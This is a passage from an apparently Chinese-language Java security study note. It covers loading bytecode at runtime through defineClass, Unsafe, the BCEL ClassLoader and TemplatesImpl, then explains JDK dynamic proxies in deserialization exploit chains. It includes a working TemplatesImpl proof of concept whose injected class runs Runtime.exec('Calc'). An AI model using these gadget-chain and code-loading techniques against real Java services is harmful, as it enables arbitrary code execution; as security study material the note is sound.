                "yv66vgAAADQAHwoABgARCQASABMIABQKABUAFgcAFwcAGAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAHTEhlbGxvOwEACDxjbGluaXQ+AQAKU291cmNlRmlsZQEACkhlbGxvLmphdmEMAAcACAcAGQwAGgAbAQALSGVsbG8gV29ybGQHABwMAB0AHgEABUhlbGxvAQAQamF2YS9sYW5nL09iamVjdAEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgAhAAUABgAAAAAAAgABAAcACAABAAkAAAAvAAEAAQAAAAUqtwABsQAAAAIACgAAAAYAAQAAAAEACwAAAAwAAQAAAAUADAANAAAACAAOAAgAAQAJAAAAJQACAAAAAAAJsgACEgO2AASxAAAAAQAKAAAACgACAAAABAAIAAUAAQAPAAAAAgAQ");

/*		byte[] code = Files.readAllBytes(Paths.get("E\\tmp\\xxx.class"));*/


                // 3. 动态加载类
                Class hello = (Class) defineClass.invoke(
                        ClassLoader.getSystemClassLoader(), "Hello", code, 0, code.length);

        // 4. 创建实例
        hello.newInstance();
    }
}
```

可以看到成功执行了Hello World

**注意一点，在 defineClass 被调用的时候，类对象是不会被初始化的，只有这个对象显式地调用其构造函数，初始化代码才能被执行。而且，即使我们将初始化代码放在类的static块中），在 defineClass 时也无法被直接调用到。所以，如果我们要使用 defineClass 在目标机器上执行任意代码，需要想办法调用构造函数。**

---

## Unsafe 加载字节码

- Unsafe中也存在`defineClass()`方法，本质上也是 `defineClass` 加载字节码的方式。

跟进去看一看 `Unsafe` 的 `defineClass()` 方法

这里的 `Unsafe` 方法，是采用单例模式进行设计的，所以虽然是  public 方法，但无法直接调用，因为我们用反射来调用它。

```
import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.ProtectionDomain;

public class UnsafeClassLoaderRce {
    public static void main(String[] args) throws Exception {
        ClassLoader classLoader = ClassLoader.getSystemClassLoader();
        
        Class<Unsafe> unsafeClass = Unsafe.class;
        Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
        unsafeField.setAccessible(true);
        Unsafe classUnsafe = (Unsafe) unsafeField.get(null);
        
        Method defineClassMethod = unsafeClass.getMethod(
            "defineClass",
            String.class,
            byte[].class,
            int.class,
            int.class,
            ClassLoader.class,
            ProtectionDomain.class
        );
        
        byte[] code = Files.readAllBytes(Paths.get("E:\\Calc.class"));
        Class calc = (Class) defineClassMethod.invoke(
            classUnsafe,
            "src.Calc",
            code,
            0,
            code.length,
            classLoader,
            null
        );
        
        calc.newInstance();
    }
}
```

---

## 利用 BCEL ClassLoader 加载字节码

BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目，但其因为被Apache Xalan所使用，而Apache Xalan又是Java内部对于JAXP的实现，所以BCEL也被包含在了JDK的原生库中。

我们可以通过BCEL提供的两个类 Repository 和 Utility 来利用： Repository 用于将一个Java Class先转换成原生字节码，当然这里也可直接使用javac命令来编译java文件生成字节码； Utility 用于将原生的字节码转换成BCEL格式的字节码：

修改classpath

```
# Windows
java -classpath "E:\java\out\production\java-ser-demo;." classloadertest

# Linux/Mac
java -classpath "/home/user/project/classes:." classloadertest
```

---

```
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import com.sun.org.apache.bcel.internal.classfile.ClassParser;
import java.io.FileInputStream;

public class classloadertest {

    public static void main(String[] args) throws Exception {
        decode();
    }

/*    protected static String encode() throws Exception {

        // 需要修改CLASSPATH
        JavaClass cls = Repository.lookupClass("Hello");
        String code = Utility.encode(cls.getBytes(), true);
        return code;
    }*/

	protected static String encode() throws Exception {
	
	// 使用 ClassParser 从文件解析
	try (FileInputStream fis = new FileInputStream("E:\\java\\out\\production\\java-ser-demo\\Hello.class")) {
		ClassParser parser = new ClassParser(fis, "Hello.class");
		JavaClass cls = parser.parse();
        String code = Utility.encode(cls.getBytes(), true);
        return code;
        }
    }

    protected static void decode() throws Exception {
        String bcelCode = encode();
        // 注意：BCEL 编码必须以 $$BCEL$$ 开头
        if (!bcelCode.startsWith("$$BCEL$$")) {
            bcelCode = "$$BCEL$$" + bcelCode;
        }

        // 使用 BCEL ClassLoader 加载
        ClassLoader loader = new ClassLoader();
        Class<?> clazz = loader.loadClass(bcelCode);

        // 创建实例触发静态块
        clazz.newInstance();
    }
}
```

而BCEL ClassLoader用于加载这串特殊的“字节码”，并可以执行其中的代码：

---

BCEL ClassLoader在Fastjson等漏洞的利用链构造时都有被用到，其实这个类和前面的

TemplatesImpl 都出自于同一个第三方库，Apache Xalan。但是在Java 8u251的更新中，这个ClassLoader被移除了，所以之后只能

且用且珍惜了。

---

## **利用**TemplatesImpl**加载字节码**

虽然大部分上层开发者不会直接使用到defineClass方法，但是Java底层还是有一些类用到了它，这就是 TemplatesImpl 。com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl 这个类中定义了一个内部类

TransletClassLoader ：

```
static final class TransletClassLoader extends ClassLoader {
    
    private final Map<String, Class> _loadedExternalExtensionFunctions;
    
    TransletClassLoader(ClassLoader parent) {
        super(parent);
        _loadedExternalExtensionFunctions = null;
    }
    
    TransletClassLoader(ClassLoader parent, Map<String, Class> mapEF) {
        super(parent);
        _loadedExternalExtensionFunctions = mapEF;
    }
    
    public Class<?> loadClass(String name) throws ClassNotFoundException {
        Class<?> ret = null;
        
        // The _loadedExternalExtensionFunctions will be empty when the
        // SecurityManager is not set and the FSP is turned off
        if (_loadedExternalExtensionFunctions != null) {
            ret = _loadedExternalExtensionFunctions.get(name);
        }
        
        if (ret == null) {
            ret = super.loadClass(name);
        }
        
        return ret;
    }
    
    /**
     * Access to final protected superclass member from outer class.
     */
     
     Class defineClass(final byte[] b) {
		return defineClass(null, b, 0, b.length);
	}
}
```

这个类里重写了 defineClass 方法，并且这里没有显式地声明其定义域。Java中默认情况下，如果一个方法没有显式声明作用域，其作用域为default。所以也就是说这里的 defineClass 由其父类的protected类型变成了一个default类型的方法，可以被类外部调用。

我们从 TransletClassLoader#defineClass() 向前追溯一下调用链：

```
TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->

TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()

-> TransletClassLoader#defineClass()
```

追到最前面两个方法 `TemplatesImpl#getOutputProperties()` 和 `TemplatesImpl#newTransformer()` ，这两者的作用域是public，可以被外部调用。

我们尝试用 `TemplatesImpl#newTransformer()` 构造一个简单的 POC

首先先构造字节码，注意，这里的字节码必须继承`AbstractTranslet`，因为继承了这一抽象类，所以必须要重写一下里面的方法。

```
package src.DynamicClassLoader.TemplatesImplClassLoader;  
  
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
  
import java.io.IOException;  
  
// TemplatesImpl 的字节码构造  
public class TemplatesBytes extends AbstractTranslet {  
    public void transform(DOM dom, SerializationHandler[] handlers) throws TransletException{}  
    public void transform(DOM dom, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException{}  
    public TemplatesBytes() throws IOException{  
        super();  
 Runtime.getRuntime().exec("Calc");  
 }  
}
```

字节码这里的编写比较容易，我就一笔带过了，接下来我们重点关注 POC 是如何编写出来的。

因为是一整条链子，参考最开始我们讲的 URLDNS 链，我们需要设置其一些属性值，从而让我们的链子传递下去。我这里先把 POC 挂出来，结合着讲。

```
package src.DynamicClassLoader.TemplatesImplClassLoader;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
// 主程序  
public class TemplatesRce {  
    public static void main(String[] args) throws Exception{  
        byte[] code = Files.readAllBytes(Paths.get("E:\\JavaClass\\TemplatesBytes.class"));  
 TemplatesImpl templates = new TemplatesImpl();  
 setFieldValue(templates, "_name", "Calc");  
 setFieldValue(templates, "_bytecodes", new byte[][] {code});  
 setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());  
 templates.newTransformer();  
 }  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{  
        Field field = obj.getClass().getDeclaredField(fieldName);  
 field.setAccessible(true);  
 field.set(obj, value);  
 }  
}
```

我们定义了一个设置私有属性的方法，命名为 `setFieldValue`，根据我们的链子，一个个看。

> TemplatesImpl#getOutputProperties() ->
> TemplatesImpl#newTransformer() ->
> TemplatesImpl#getTransletInstance() ->
> TemplatesImpl#defineTransletClasses() ->
> TransletClassLoader#defineClass()

主要是三个私有类的属性

```
setFieldValue(templates, "_name", "Calc"); 
```

显然，`_name` 不能为 null，我们才能进入链子的下一部分。
链子的下一部分为 `defineTransletClasses`，我们跟进去。

`_tfactory` 需要是一个 `TransformerFactoryImpl` 对象，因为 `TemplatesImpl#defineTransletClasses()` 方法里有调用到 `_tfactory.getExternalExtensionsMap()` ，如果是 null 会出错。

弹计算器成功

---

# JDK动态代理

## **java代理：**

**为目标对象提供一个代理对象来控制对该目标的访问，允许在调用目标方法前后插入额外操作。**

## 1. 静态代理（手动写代码）

**代理类在编译前手动编写完成，每个代理类只为一个接口或类服务，代码冗余但简单直接。**

简单示例：

```
// 明星
interface Star {
    void perform();
}

class RealStar implements Star {
    public void perform() {
        System.out.println("明星表演");
    }
}

// 经纪人（手动写的代理类）
class Agent implements Star {
    private Star star;
    
    public Agent(Star star) {
        this.star = star;
    }
    
    public void perform() {
        System.out.println("谈价格");
        System.out.println("安排时间");
        star.perform();  // 明星表演
        System.out.println("收钱");
    }
}

// 使用
Star star = new Agent(new RealStar());
star.perform();  // 通过经纪人调用
```


## 2. *重点 动态代理（运行时自动生成）

**代理类在运行时由JDK动态生成，一个代理处理器可以为任意接口提供代理服务，灵活且代码复用性高。**

简单示例：

```
// 不需要手动写经纪人类，Java 自动帮你创建
Star star = (Star) Proxy.newProxyInstance(
    Star.class.getClassLoader(),
    new Class[]{Star.class},
    (proxy, method, args) -> {
        System.out.println("谈价格");
        System.out.println("安排时间");
        Object result = method.invoke(new RealStar(), args);
        System.out.println("收钱");
        return result;
    }
);

star.perform();  // 效果一样
```

这里重点记录一下动态代理，在java反序列化漏洞利用时会用到

- 动态代理的角色和静态代理的一样。需要一个实体类，一个代理类，一个启动器。
- 动态代理的代理类是动态生成的，静态代理的代理类是我们提前写好的。

## JDK动态代理会用到的两个类（InvocationHandler、Proxy ）

**核心 : InvocationHandler 调用处理程序类和 Proxy 代理类**

### InvocationHandler：调用处理程序

```
public interface InvocationHandler
```

InvocationHandler是由代理实例的调用处理程序实现的接口

每个代理实例都有一个关联的调用处理程序。

```
Object invoke(Object proxy, 方法 method, Object[] args)；
```

当在代理实例上调用方法的时候，方法调用将被编码并分派到其调用处理程序的`invoke()`方法。

**参数**：

- `proxy` – 调用该方法的代理实例
- `method` -所述方法对应于调用代理实例上的接口方法的实例。方法对象的声明类将是该方法声明的接口，它可以是代理类继承该方法的代理接口的超级接口。
- `args` -包含的方法调用传递代理实例的参数值的对象的阵列，或null如果接口方法没有参数。原始类型的参数包含在适当的原始包装器类的实例中，例如`java.lang.Integer`或`java.lang.Boolean` 。

---

### **Proxy : 代理**

```
public class Proxy extends Object implements Serializable
```

`Proxy`提供了创建动态代理类和实例的静态方法，它也是由这些方法创建的所有动态代理类的超类。

动态代理类 （以下简称为代理类 ）是一个实现在类创建时在运行时指定的接口列表的类，具有如下所述的行为。 代理接口是由代理类实现的接口。 代理实例是代理类的一个实例。

```
public static Object newProxyInstance(ClassLoader loader, 类<?>[] interfaces, InvocationHandler h) throws IllegalArgumentException
```

返回指定接口的代理类的实例，该接口将方法调用分派给指定的调用处理程序。

**参数**

- `loader` – 类加载器来定义代理类
- `interfaces` – 代理类实现的接口列表
- `h` – 调度方法调用的调用处理函数

### 动态代理的代码实现

这里我们简单实现以下动态代理

- 要写动态代理的代码，需要抓牢两个要点

①：我们代理的是接口，而不是单个用户。
②：代理类是动态生成的，而非静态定死。

首先是我们的接口类
**UserService.java**

```
package src.JdkProxy.DynamicProxy;  
  
  
public interface UserService {  
    public void add();  
 public void delete();  
 public void update();  
 public void query();  
}
```

接着，我们需要用实体类去实现这个抽象类

**UserServiceImpl.java**

```
package src.JdkProxy.DynamicProxy;  
  
public class UserServiceImpl implements UserService{  
    @Override  
 public void add() {  
        System.out.println("增加了一个用户");  
 }  
  
    @Override  
 public void delete() {  
        System.out.println("删除了一个用户");  
 }  
  
    @Override  
 public void update() {  
        System.out.println("更新了一个用户");  
 }  
  
    @Override  
 public void query() {  
        System.out.println("查询了一个用户");  
 }  
}
```

接着，是动态代理的实现类

```
package src.JdkProxy.DynamicProxy;  
  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Method;  
import java.lang.reflect.Proxy;  
  
public class UserProxyInvocationHandler implements InvocationHandler {  
  
    // 被代理的接口  
 private UserService userService;  
  
 public void setUserService(UserService userService) {  
        this.userService = userService;  
 }  
  
    // 动态生成代理类实例  
 public Object getProxy(){  
        Object obj = Proxy.newProxyInstance(this.getClass().getClassLoader(), userService.getClass().getInterfaces(), this);  
 return obj;  
 }  
  
    // 处理代理类实例，并返回结果  
 @Override  
 public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
        log(method);  
 Object obj = method.invoke(userService, args);  
 return obj;  
 }  
  
    //业务自定义需求  
 public void log(Method method){  
        System.out.println("[Info] " + method.getName() + "方法被调用");  
 }  
}
```

- 最后编写我们的 Client，也就是启动器

```
package src.JdkProxy.DynamicProxy;  
  
import src.JdkProxy.DynamicProxy.UserServiceImpl;  
  
public class Client {  
    public static void main(String[] args) {  
        // 真实角色  
 UserServiceImpl userServiceImpl = new UserServiceImpl();  
 // 代理角色，不存在  
 UserProxyInvocationHandler userProxyInvocationHandler = new UserProxyInvocationHandler();  
 userProxyInvocationHandler.setUserService((UserService) userServiceImpl); // 设置要代理的对象  
  
 // 动态生成代理类  
 UserService proxy = (UserService) userProxyInvocationHandler.getProxy();  
  
 proxy.add();  
 proxy.delete();  
 proxy.update();  
 proxy.query();  
 }  
}
```

---

## 在反序列化中动态代理的作用

在反序列化中动态代理

我们先假设存在一个能够漏洞利用的类为 `B.f`，比如 `Runtime.exec` 这种。
我们将入口类定义为 `A`，我们最理想的情况是 A[O] -> O.f，那么我们将传进去的参数 `O` 替换为 `B` 即可。但是在实战的情况下这种情况是极少的。

回到实战情况，比如我们的入口类 `A` 存在 `O.abc` 这个方法，也就是 A[O] -> O.abc；而 O 呢，如果是一个动态代理类，`O` 的 `invoke` 方法里存在 `.f` 的方法，便可以漏洞利用了，我们还是展示一下。

```
A[O] -> O.abc
O[O2] invoke -> O2.f // 此时将 B 去替换 O2
最后  ---->
O[B] invoke -> B.f // 达到漏洞利用效果
```

简单来说就是和readObject类似

`readObject` 方法在反序列化当中会被自动执行。
而 `invoke` 方法在动态代理当中会自动执行。

主要是用来辅助我们的利用链


